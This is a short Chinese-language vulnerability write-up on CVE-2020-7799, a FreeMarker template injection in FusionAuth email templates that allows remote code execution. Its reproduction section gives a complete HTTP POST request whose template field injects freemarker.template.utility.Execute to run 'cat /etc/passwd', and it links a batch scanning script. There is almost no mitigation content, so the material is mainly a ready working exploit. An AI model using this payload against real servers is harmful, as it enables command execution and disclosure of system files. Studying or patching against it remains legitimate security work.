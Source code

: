 ```yaml
---
title: （CVE-2020-7799） Apache FreeMarker模板FusionAuth远程代码执行漏洞
id: zhfly2814
---
```


# （CVE-2020-7799） Apache FreeMarker模板FusionAuth远程代码执行漏洞

## 一、漏洞简介

在FusionAuth 1.11.0版本之前的中发现了一个问题。经过身份验证的用户允许编辑电子邮件模板（主页->设置->电子邮件模板）或主题（主页->设置->主题），可利用`freemarker.template.utility.Execute`执行任意命令

## 二、漏洞影响

## 三、复现过程

post提交

```
POST /ajax/email/template/preview HTTP/1.1
Host: www.0-sec.org:9011
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:69.0) Gecko/20100101 Firefox/69.0
Accept: */*
Accept-Language: it-IT,it;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 796
DNT: 1
Connection: close
Referer: http://192.168.0.3:9011/admin/email/template/edit/2c2591f5-2136-4a77-8b5a-1f5e9fb0e25b
Cookie: JSESSIONID=FA9DB3CBABA6B37E5336AE4B96001807; 

primeCSRFToken=kRC228UjAA4ohN_E9PW9kz0HpTlxUDCB_HVrDhBUfWU&emailTemplateId=2c2591f5-2136-4a77-8b5a-1f5e9fb0e25b&emailTemplate.name=COPPA%20Notice&emailTemplate.defaultSubject=Notice%20of%20your%20consent&emailTemplate.fromEmail=no-reply%[40fusionauth.io](http://40fusionauth.io)&emailTemplate.defaultFromName=FusionAuth&emailTemplate.defaultTextTemplate=You%20recently%20granted%20your%20child%20consent%20in%20our%20system.%20This%20email%20is%20to%20notify%20you%20of%20this%20consent.%20If%20you%20did%20not%20grant%20this%20consent%20or%20wish%20to%20revoke%20this%20consent%2C%20click%20the%20link%20below%3A%0A%0Ahttp%3A%2F%[2Fexample.com](http://2Fexample.com)%2Fconsent%2Fmanage%0A%0A-%20FusionAuth%20Admin&emailTemplate.defaultHtmlTemplate=${“freemarker.template.utility.Execute”?new()(“cat /etc/passwd”)}} 
```

![image](../img/fd796394c31241ff20aa4ff376929820.png)

### 批量检测脚本

https://github.com/ianxtianxt/CVE-2020-7799/

## 参考链接

> https://www.anquanke.com/vul/id/1910928

> https://cert.360.cn/warning/detail?id=207275e27a6e7ee85a43a6eb5cf5fc69